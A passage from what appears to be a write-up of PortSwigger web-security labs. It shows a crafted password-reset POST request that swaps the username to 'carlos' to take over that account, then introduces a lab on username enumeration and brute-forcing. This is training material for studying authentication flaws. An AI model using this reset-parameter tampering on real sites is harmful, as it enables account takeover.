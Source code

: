 ![img](media/3af7211d5c111bd9de2d00580a8f71e7.png)

So we can change the username parameter to “carlos” and access the page with the
new password:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /forgot-password?temp-forgot-password-token=eeiyUnDFWhZqlaBJz707cipGPxh7bN4T HTTP/2
...

temp-forgot-password-token=eeiyUnDFWhZqlaBJz707cipGPxh7bN4T&username=carlos&new-password-1=password&new-password-2=password
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

04 Username enumeration via subtly different responses
======================================================

This lab is subtly vulnerable to username enumeration and password brute-force
attacks. It has an account with a predictable username and password, which can
be found in the following wordlists:

-   Candidate usernames

-   Candidate passwords

To solve the lab, enumerate a valid username, brute-force this user's password,
then access their account page.

References:

-   https://portswigger.net/web-security/authentication/password-based

